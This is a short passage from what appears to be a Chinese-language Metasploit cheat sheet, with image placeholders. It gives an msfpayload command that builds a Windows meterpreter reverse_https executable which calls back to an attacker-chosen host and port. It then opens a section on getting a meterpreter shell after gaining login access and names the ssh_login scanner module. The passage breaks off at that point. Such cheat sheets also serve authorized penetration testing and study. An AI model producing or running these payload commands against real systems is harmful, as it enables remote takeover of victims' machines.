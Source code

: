 ![enter image description here](img/img4_u49_png.jpg)

**reverse_https**

```
msfpayload windows/meterpreter/reverse_https LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```

![enter image description here](img/img5_u57_png.jpg)

### Login privilege

在获得一些登陆权限之后获得 meterpreter shell 的方法。

**SSH**

**ssh_login**

模块路径:`auxiliary/scanner/ssh/ssh_login`
